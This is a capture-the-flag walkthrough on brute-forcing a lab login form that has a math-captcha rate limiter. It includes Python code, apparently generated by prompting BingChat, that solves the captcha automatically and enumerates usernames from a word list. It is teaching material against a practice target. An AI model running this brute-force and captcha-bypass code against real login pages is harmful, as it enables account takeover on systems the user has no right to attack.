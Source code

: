 # What do we know?

- Task 1 provides us with information about a login form and a rate limiter. This suggests that we cannot use a standard tool like Hydra to brute force the login form.

- We are also given a zip file to download, which contains two text files:
  - `usernames.txt`
  - `passwords.txt`

  This indicates that the username and password needed to solve this challenge can be found in these files. Given that there are over 800 usernames and 1500 passwords, it is clear that manually trying all possible combinations of over 1 million username/password pairs is not feasible.
  
- Additionally, we know that the login form is accessible at `http://MACHINE_IP`.

# Examine the login form
Start the victim machine and also set up your AttackBox by: 
- Start a Web browser (like Firefox) 
- Start Burp Suite (Community Edition is good enough)
- Set the proxy tool in the browser (e.g. [FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)) to go through Burp

With Burp Suite we will more easily be able to view the traffic between the web browser and the web server. Especially, we want to intercept the post we make when trying to login.

First, visit the webpage in your browser and try to log in using some username and password, such as "user1" and "pwd". 

![image](https://user-images.githubusercontent.com/6702854/236620094-bb825a71-0451-4eef-abf1-927bfb8f9ccd.png)


You should notice that an error message appears stating ``The user 'user1' does not exist``. It is considered bad practice to inform potential hackers that a specific username does not exist, as this makes it easier for them to determine when they have found the correct username. 

So to speed up brute force cracking of the login form, we should first try to find the username without trying all the password (this is also mentionend in the Hint in Task 2). This bad practice has reduced the number of tries from over a million to less than 2000 (first 800 usernames to brute force, and then try the 1500 passwords on the found username). Still too many to do manually, if you aren't very determined 😄

## Captcha

Press the "Log in"-button about ten times, and you will see that ``Too many bad login attempts!`` and a Captcha appears. For every login we need to solve a mathematical puzzle. This is the rate limiter that was mentioned in Task 1. We cannot brute force this with Hydra and after a quick search on Google I did not find any other tools that does this automatically.

![image](https://user-images.githubusercontent.com/6702854/236621346-f88dfee3-1ba9-428c-8dde-6dcd52157071.png)

Make sure that you try to login with a correct CHAPTA, so we can intercept all kinds of requests from the login form.

## Request Bodies
In Burp under Target/Site Map and the URL for the /login page, you should now see at least two kinds of POST-requests from the login form

![image](https://user-images.githubusercontent.com/6702854/236622180-2847a268-c159-42f8-afb5-283860065ecd.png)

Clicking on those requests we get the full POST header:

```
POST /login HTTP/1.1
<snip>
username=user1&password=pwd
```
and
```
POST /login HTTP/1.1
<snip>
username=user1&password=pwd&captcha=656
```

These are very useful in our next step!

# Creating our own brute force tool
It seems that the easiest way is to create our own brute force tool to solve this challenge. The approach is to use Python and use [BingChat](https://www.bing.com/search?q=Bing+AI&showconv=1&FORM=hpcodx) to help us speed up the coding of this application. 

> BingChat only requires a Microsoft-account, such as hotmail.com or outlook.com.

> Please not that the response from the BingChat AI will probably differ with the same prompt used again

``prompt > Write a Python function that takes a web response text and searches for a captcha in the following format "671 * 50 = ?", and calculates and returns the result. The operator can be all of the four basic operators.``

```
import re

def solve_captcha(response_text: str) -> int:
    match = re.search(r'(\d+)\s*([\+\-\*\/])\s*(\d+)\s*=\s*\?', response_text)
    if match:
        a = int(match.group(1))
        operator = match.group(2)
        b = int(match.group(3))
        if operator == '+':
            return a + b
        elif operator == '-':
            return a - b
        elif operator == '*':
            return a * b
        elif operator == '/':
            return a / b
    return None
```

Great! We have a method that can parse and calculate the mathematical Captcha.


Use the function above in a program that connects to http://victimip/login and POSTs username and password in this format "username=user1&password=pwd" until the response does not contain "does not exist". If the response contains "Invalid captcha" read the captcha from the response, calculate the value and POST again with format "username=user1&password=pwd&captcha=theCaptcha"

import requests

url = 'http://serverip/login'
username = 'user1'
password = 'pwd'

while True:
    data = {'username': username, 'password': password}
    response = requests.post(url, data=data)
    response_text = response.text
    if 'does not exist' not in response_text:
        break
    if 'Invalid captcha' in response_text:
        captcha_value = solve_captcha(response_text)
        data['captcha'] = captcha_value
        response = requests.post(url, data=data)
        response_text = response.text
        if 'does not exist' not in response_text:
            break
            
            
prompt > read username from a file called usernames.txt and use these in the loop to test usernames

import requests

url = 'http://serverip/login'
password = 'pwd'

with open('usernames.txt', 'r') as f:
    usernames = f.read().splitlines()

for username in usernames:
    data = {'username': username, 'password': password}
    response = requests.post(url, data=data)
    response_text = response.text
    if 'does not exist' not in response_text:
        print(f'Successful login with username: {username}')
        break
    if 'Invalid captcha' in response_text:
        captcha_value = solve_captcha(response_text)
        data['captcha'] = captcha_value
        response = requests.post(url, data=data)
        response_text = response.text
        if 'does not exist' not in response_text:
            print(f'Successful login with username: {username}')
            break


